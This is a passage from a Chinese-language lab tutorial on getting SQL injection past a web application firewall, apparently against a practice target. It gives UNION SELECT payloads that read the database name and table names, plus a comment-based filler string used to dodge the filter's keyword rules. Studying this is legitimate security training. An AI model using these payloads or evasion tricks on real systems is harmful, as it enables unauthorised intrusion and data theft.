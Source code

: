 ![](https://gitee.com/fuli009/images/raw/master/public/20230222180158.png)

### union select

![](https://gitee.com/fuli009/images/raw/master/public/20230222180201.png)

`union select`使用之前的垃圾字符替换空格发现不行了：

![](https://gitee.com/fuli009/images/raw/master/public/20230222180203.png)

但是先不急于换方法，再爆破一遍试试：

![](https://gitee.com/fuli009/images/raw/master/public/20230222180204.png)image-20221117231524071![](https://gitee.com/fuli009/images/raw/master/public/20230222180206.png)

发现又有很多可以绕过的了。

所以我们再更改一下替换空格的垃圾字符， 这里选`/*/!%!/*/`

即：` `->`/*/!%!/*/`

![](https://gitee.com/fuli009/images/raw/master/public/20230222180208.png)

### 获得当前数据库

正常语句：

    
    
    ?id=-1 union select 1,database(),3 --+

![](https://gitee.com/fuli009/images/raw/master/public/20230222180213.png)

绕过：

![](https://gitee.com/fuli009/images/raw/master/public/20230222180214.png)

即：`()`->`(/*/!%!/*/)`

### 获取数据库中的表

正常语句：

    
    
    ?id=-1 union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='security' --+

![](https://gitee.com/fuli009/images/raw/master/public/20230222180215.png)image-20221117234536391

绕过：

经过测试发现拦截的是`select + from + information_schema`的组合

![](https://gitee.com/fuli009/images/raw/master/public/20230222180217.png)![](https://gitee.com/fuli009/images/raw/master/public/20230222180218.png)

中间加垃圾字符替换空格已经不管用了，我们尝试对关键字进行混淆。
